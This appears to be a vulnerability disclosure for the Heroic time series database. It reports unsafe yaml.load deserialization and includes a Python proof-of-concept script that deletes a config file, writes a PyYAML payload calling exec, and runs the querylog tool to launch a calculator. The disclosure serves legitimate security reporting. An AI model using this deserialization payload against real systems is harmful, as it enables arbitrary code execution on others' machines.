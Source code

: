# Description
A scalable time series database based on Bigtable, Cassandra, and Elasticsearch

- **Vulnerability discription**
    untrusted loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept

1. run exploit.py
```python
import os
#clone the repo
os.chdir('heroic/tools/')
exp ='''value: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('rm querylog_mappings.yaml')
open('querylog_mappings.yaml','w+').write(exp)
os.system('''./querylog''')
```
![](https://cdn.discordapp.com/attachments/789769803770494996/793176764670541834/unknown.png)

